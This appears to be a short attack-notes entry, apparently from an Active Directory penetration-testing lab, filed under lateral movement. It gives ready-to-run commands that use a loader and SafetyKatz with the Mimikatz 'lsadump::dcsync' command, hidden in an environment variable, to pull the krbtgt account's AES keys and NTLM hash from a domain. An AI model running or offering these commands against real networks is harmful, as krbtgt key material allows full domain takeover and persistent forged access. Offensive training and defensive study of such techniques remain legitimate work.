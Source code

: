 [[Lateral Movement]]
To get aes keys and ntlm hash of krbtgt account
```
echo %Pwn% -> lsadump::dcsync
```
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:dcorp\krbtgt" "exit"
```

 